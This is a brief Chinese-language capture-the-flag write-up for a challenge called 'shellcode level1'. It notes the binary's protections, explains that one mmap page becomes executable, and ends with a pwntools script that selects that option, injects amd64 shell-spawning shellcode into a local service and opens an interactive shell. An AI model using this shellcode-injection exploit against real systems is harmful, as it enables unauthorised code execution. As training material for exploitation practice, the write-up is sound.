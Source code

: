 # shellcode level1

## 文件分析

下载`shellcode_level1`, NX on, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 逆向

这次要我们选择内存单元执行，有stack, .bss, heap, mmap页等  
其中mmap分配时0页为rw-，后改为rwx；  
分配1页时为rwx，后改为---

只要输入4即可执行shellcode，同上题

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33251)
sh.sendline(b'4') # mmap paper 0
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
